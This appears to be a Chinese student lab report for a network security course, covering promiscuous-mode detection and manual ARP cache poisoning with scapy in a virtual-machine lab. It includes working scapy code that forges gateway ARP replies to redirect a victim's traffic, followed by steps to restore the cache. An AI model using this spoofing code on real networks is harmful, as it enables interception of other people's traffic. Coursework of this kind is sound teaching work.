

## 实验四 网络监听

### 网络拓扑

身份 | 虚拟机名称 |   IP  | MAC地址
-|-|-|-
网关 | Debian 10 | 172.16.111.1 | 08:00:27:b9:87:bc|
攻击者主机 | attacker-kali | 172.16.111.25 |08:00:27:01:aa:fc |
目标靶机 | Victim-Kali-1 | 172.16.111.107 | 08:00:27:65:d0:dd |


### 实验准备

#### 安装scapy

1.在攻击者主机上提前安装好 scapy
`sudo apt update && sudo apt install python3 python3-pip`


`pip3 install scapy[complete]`


#### 实验一：检测局域网中的异常终端
1.在受害者主机上检查网卡的「混杂模式」是否启用
`ip link show eth0`


2.在攻击者主机上开启 scapy
`scapy`


3.在 scapy 的交互式终端输入以下代码回车执行
`pkt = promiscping("172.16.111.107")`

* 使用`sudo su`切换root用户，否则会报错提升权限不够


4.回到受害者主机上开启网卡的「混杂模式」


此时发现输出结果里多出来了promisc
`ip link show eth0`


5.回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异
`pkt = promiscping("172.16.111.107")`


6.在受害者主机上手动关闭网卡的「混杂模式」
`sudo ip link set eth0 promisc off`

#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1.获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
```

# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

```


2.伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)


```
3.在受害者主机上查看 ARP 缓存

没有被毒化，构造时需要加Ethernet帧头。再次在受害者主机上查看 ARP 缓存，网关的 MAC 地址已被替换为攻击者主机的 MAC 地址。
`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")`


4.恢复受害者主机的 ARP 缓存记录
```

# 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b9:87:bc", pdst="172.16.111.107", hwdst="08:00:27:65:d0:dd")

sendp(restorepkt1, count=100, inter=0.2)

```

5.在受害者主机上“刷新”网关 ARP 记录

```
# 在受害者主机上ping网关
ping 172.16.111.1
# 静候几秒 ARP 缓存刷新成功，退出 ping
#  查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
### 实验问题及解决方案

1.安装pip3时报错：Resolving failed: Temporary failure in name resolution



参考网址：

https://www.cnblogs.com/attlia/p/3660752.html

https://blog.csdn.net/weixin_45588247/article/details/115762297

https://blog.csdn.net/CliffordR/article/details/89207778


2.使用scapy缺少权限


参考网址：

https://blog.csdn.net/weixin_45515936/article/details/114328920

3.如何做到kali linux 物理机和虚拟机相互复制粘贴

参考网址：

https://blog.csdn.net/weixin_44114370/article/details/89196011


### 参考资料

1.https://github.com/CUCCS/2020-ns-public-Annna777/blob/chap0x04/chap0x04/chap04.md


2.https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html
